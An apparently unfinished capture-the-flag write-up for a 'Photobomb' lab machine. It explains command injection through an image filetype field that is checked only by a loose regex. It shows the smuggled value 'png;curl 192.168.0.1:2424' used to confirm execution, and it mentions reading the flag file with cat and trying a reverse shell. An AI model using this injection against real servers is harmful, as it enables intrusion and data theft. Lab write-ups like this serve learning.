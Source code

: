 # Photobomb

## User
As it turns out, the regex checking of the filetype header was the actual vulnerbility. Although contrary to my ideas, you are not able to retrieve an forbidden file with this technique, but execute code on the server.

This is possibe because not every image file is stored seperately on the server, but some software like imagemagic is used to convert it to the wanted dimensions and filetype.

So the command looks something like this:

```bash
image-software -name ... -dimensions ... -filetype png
```

And the regex checks only if the filetype starts with png or jpg, allowing me to insert another command with an semicolon at the end **png;curl 192.168.0.1:2424**

I used curl to check if the command is actually getting executed, by starting a python server and listening for incoming connections.

The last thing I needed to do, was to execute a reverse tcp on the server, but before that I used **cat** in the same way as curl in the example below to read out the **user.txt** file that was in the home directory to get the flag.

*The thing that needed to be considered is that everything needed to be URL encoded.*

At this point I had a problem with the reverse shell, that was properly URL encoded, but still didn't work. This required some more testing.

## Root
Work in progress
